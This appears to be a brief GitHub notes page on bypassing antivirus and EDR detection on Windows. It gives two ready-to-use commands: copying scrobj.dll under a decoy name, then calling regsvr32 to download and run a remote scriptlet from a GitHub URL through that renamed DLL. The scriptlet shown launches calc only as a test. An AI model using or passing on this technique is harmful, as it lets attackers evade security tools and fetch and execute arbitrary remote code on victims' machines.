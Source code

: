# One-off-hacks

### Bypass AV/EDR test found [here](https://www.trustedsec.com/blog/discovering-the-anti-virus-signature-and-bypassing-it/) and here at [twitter](https://twitter.com/mrd0x/status/1461041276514623491?s=20)
Bypass by:
1. copying and renaming scrobj.dll  
`copy c:\windows\system32\scrobj.dll NothingToSeeHere.dll`
2. Testing that by launching calc  
`Regsvr32.exe /u /s /i:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Regsvr32_calc.sct
NothingToSeeHere.dll`

